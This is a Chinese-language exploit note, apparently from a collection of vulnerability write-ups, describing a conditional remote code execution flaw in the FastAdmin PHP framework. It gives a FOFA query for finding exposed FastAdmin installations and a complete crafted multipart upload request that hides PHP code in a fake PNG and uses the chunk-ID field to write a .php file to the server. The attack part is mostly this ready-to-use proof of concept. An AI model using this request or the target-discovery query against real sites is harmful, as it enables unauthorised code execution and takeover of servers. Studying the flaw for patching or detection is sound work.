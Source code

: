 # FastAdmin 框架远程代码执行漏洞


FastAdmin是一款基于ThinkPHP和Bootstrap的极速后台开发框架。FastAdmin框架存在有条件RCE漏洞，当攻击者具有一定用户权限的前提下，可以实现任意文件上传，导致RCE。

FOFA：

```
app="FASTADMIN-框架" || body="\"uploadurl\":\"ajax\/upload\"" || body="api.fastadmin.net" || body="\"fastadmin\":{\"usercenter\":true" || body="content=\"FastAdmin\"" || body="cdnurl\":\"\",\"version"|| icon_hash="-1036943727"
```

详细分析可以见：https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg

条件：

* 普通用户
* chunking = true （开启分片上传功能）

上传头像处post：

```
//传入xx.php
POST /index/ajax/upload HTTP/1.1
Host: target

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="file"; filename="Xnip2021-04-02_11-05-27.png"
Content-Type: application/octet-stream

PNG
...
<?php phpinfo();?>
------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkid"

xx.php

------WebKitFormBoundarybw5c2a2bqlLLOMEU
Content-Disposition: form-data; name="chunkindex"

0
------WebKitFormBoundarybw5c2a2bqlLLOMEU
```

![-w692](media/16215847478584/16215847933888.jpg)


ref：

* https://mp.weixin.qq.com/s/otrH75ZjCHBQbRB7g5DdWg
* https://mp.weixin.qq.com/s/XP9t0TkObawMTSb41Z13gw
* https://nosec.org/home/detail/4713.html
* https://forum.ywhack.com/thread-115352-1-6.html